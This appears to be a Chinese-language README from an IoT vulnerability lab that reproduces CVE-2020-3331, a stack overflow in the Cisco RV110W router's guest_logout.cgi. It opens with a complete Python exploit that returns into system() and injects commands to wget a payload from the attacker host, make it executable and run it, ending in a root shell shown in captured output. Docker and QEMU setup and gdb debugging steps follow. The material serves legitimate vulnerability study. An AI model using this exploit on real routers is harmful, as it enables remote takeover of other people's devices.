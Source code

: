 # Cisco RV110W 路由器远程代码执行漏洞 （CVE-2020-3331）

[思科路由器 RV110W CVE-2020-3331 / CVE-2020-3323 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台栈cgi接口 `guest_logout.cgi` 栈溢出
- 利用：a0寄存器可控，ret2system

> exp: python2

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')

io      = listen(31337)
system  = 0x0047A610

cmd     = '\n'
cmd    += 'rm /msf\n'
cmd    += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd    += 'chmod 777 /msf\n'
cmd    += '/msf\n'

assert(len(cmd)<0x55)

payload =  "status_guestnet.asp" + cmd.ljust(0x55,'a') + p32(system) 
data    = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try: requests.post("http://192.168.2.2/guest_logout.cgi", data=data,timeout=1)
    except: pass

thread.start_new_thread(attack,())
io.wait_for_connection()
log.success("getshell")
io.interactive()
```


## 环境简述

- docker：     攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd: 有漏洞 Web服务器：192.168.2.2:80

## 基本环境

```
git clone https://github.com/firmianay/IoT-vulhub.git
```

- 本环境dockerfile依赖：`firmianay/qemu-system:mipsel`
- 上述dockerfile又依赖：`firmianay/ubuntu1604`

故首先需要本地构建这两个docker image，方法如下：

```sh
➜  cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
➜  cd baseImage/qemu-system/mipsel &&  docker build -t firmianay/qemu-system:mipsel . && cd ../../../
```

然后即可编译本例镜像：

```
➜  cd Cisco/CVE-2020-3331
➜  docker-compose -f docker-compose-system.yml build
```

## 首次攻击尝试

仍然在`Cisco/CVE-2020-3331`目录中，启动镜像：

```sh
➜  docker-compose -f docker-compose-system.yml up
```

出现如下内容后，说明Web服务启动完成：

```
cisco-system  | http_settimeouts=Unknown
cisco-system  | http_settimeouts_usec=Unknown
cisco-system  | http_debug=Unknown
```

再开启一个容器的shell，即可尝试首次攻击：

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ python exp.py 
[+] Trying to bind to :: on port 31337: Done
[+] Waiting for connections on :::31337: Got connection from ::ffff:192.168.2.2 on port 57638
[+] getshell
[*] Switching to interactive mode
$ uname -a
Linux debian-mipsel 3.2.0-4-4kc-malta #1 Debian 3.2.51-1 mips unknown
$ id
uid=0 gid=0
```

## docker中调试

- gef，pwntools，gdb-multiarch都集成好的docker
- gdbserver已经放在qemu-system跑起来的固件的文件系统中


窗口一：开启调试（qemu-system shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ ./run_qemu.sh

即可进入qemu-system，以root:root手动登录后，即可启动调试

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./run_httpd.sh       
root@debian-mipsel:$ ./debug_httpd.sh 
Attached; pid = 2328
Listening on port 1234
```

窗口二：调试界面（docker shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ gdb-multiarch -x  gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ cd tools
root@7463bb44fe27:$ python exp.py
```

## 本机调试

如果你不想用docker进行调试，在docker-compose中预留了端口映射，可以手动使用ssh将qemu靶机的80和1234端口转发到docker主机，通过docker最终映射到宿主机的端口上：

> docker-compose-system.yml

```yml
ports:
    - "8888:80"
    - "1234:1234"
expose:
    - "80"
    - "1234"
```

转发命令如下，ssh自己实现端口转发：

```sh
➜  docker exec -it cisco-system /bin/bash
root@7463bb44fe27:$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:1234:192.168.2.2:1234
root@7463bb44fe27:$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问8888和1234端口来访问漏洞服务和gdbserver了